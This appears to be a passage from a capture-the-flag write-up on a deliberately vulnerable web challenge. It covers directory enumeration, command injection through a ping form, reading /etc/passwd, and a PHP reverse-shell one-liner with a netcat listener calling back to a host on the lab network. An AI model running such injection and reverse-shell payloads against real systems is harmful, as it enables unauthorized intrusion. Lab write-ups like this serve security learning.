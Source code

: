     Dirs found with a 403 response:

    /Challenge/Magic_Box/
    /Challenge/Magic_Box/proc/


    --------------------------------
    Files found during testing:

    Files found with a 200 responce:

    /Challenge/Magic_Box/low.php
    /Challenge/Magic_Box/command.php

    Files found with a 302 responce:

    /Challenge/Magic_Box/proc/validate.php


    --------------------------------
We got some nice result mostly the `/command.php` page.

### Command execution

The page let us ping an other machine in the network. Nevertheless the page name
let us think that we can use command exploitation. If we add a `;` in the filed
and a command it seems to works, for instance with `; ls` we got (I use
[burp](http://releases.portswigger.net/) for all my pentest, the output of the
command is in the response page):

    :::text
    command.php
    command.php.save
    command2.php.save
    command2.php.save.1
    low.php
    proc
    tails.php

We can also read `/etc/passwd`: there is two users on the server: acid and
saman.

Let us try to get a reverse shell with that.

### reverse shell

As always, a good source of information is
[pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

We know the site use php so we will try the php reverse shell first:

  * On the host we execute: `nc -l -p 6666`
  * On the target (via the ping interface) we query:
    `; php -r '$sock=fsockopen("192.168.0.13",6666);exec("/bin/sh -i <&3 >&3 2>&3");'`

It got us a shell on the machine (without tty/pty). But executing the request in the ping
interface each time we want the shell in painful, so I extract the curl command
from burp:
